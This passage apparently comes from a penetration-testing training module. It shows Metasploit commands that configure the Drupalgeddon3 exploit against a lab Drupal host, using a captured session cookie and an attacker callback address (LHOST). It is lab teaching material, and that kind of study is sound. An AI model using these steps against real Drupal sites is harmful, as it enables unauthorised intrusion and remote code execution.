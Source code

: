 ![image](https://academy.hackthebox.com/storage/modules/113/burp.png)

Once we have the session cookie, we can set up the exploit module as follows.
`MSF`
```shell-session
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) > show options 
```
